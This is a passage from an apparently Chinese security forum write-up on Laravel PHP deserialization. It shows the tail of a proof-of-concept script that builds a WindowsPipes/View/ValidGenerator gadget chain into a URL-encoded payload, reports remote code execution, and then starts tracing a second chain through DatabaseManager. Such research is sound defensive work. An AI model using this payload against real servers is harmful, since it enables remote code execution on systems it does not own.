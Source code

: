 ```php
    }

}
namespace Illuminate\View;
use Faker\ValidGenerator;
class View{
    protected $factory;
    public function __construct(){
        $this->factory=new ValidGenerator;
    }
}

namespace Symfony\Component\Process\Pipes;
use Illuminate\View\View;
class WindowsPipes{
    private $files = array();
    public function __construct(){
        $this->files = array(new View());
    }
}
echo urlencode(serialize(new WindowsPipes()));
?>
```

成功RCE  
![Pasted image 20220507094734.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-bc33caa1169b7fb117567128808fa602cbd80ccc.png)

0x02 RCE2
=========

继续从`__call`方法寻找  
全局搜索`__calll`  
在`DatabaseManager`类中调用了`$this->connection()`

![Pasted image 20220507102553.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-b3fa5b770738535127a9e73be5fbe6d9a7a497b1.png)

跟进`$this->connecttion()`

![Pasted image 20220507102635.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-51f7bc8cbac49cd1b06033b3220d97da2d61dc23.png)

通过`$this->parseConnectionName($name)`给`$name`赋值，跟进

![Pasted image 20220507112257.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-c27cceb7ef1b433b45cade391dcc35b1a509af63.png)

通过`$this->getDefaultConnection()`给`$name`赋值,跟进  
直接返回了`$this->app['config']['database.default'];`

![Pasted image 20220507114947.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e3e32c6fec3d82da933a99a5b00be580be54a85c.png)

最后返回,

![Pasted image 20220507112353.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-9cebf4ccdb5925ebb7a7c5ebdda3c403c29eb9ae.png)
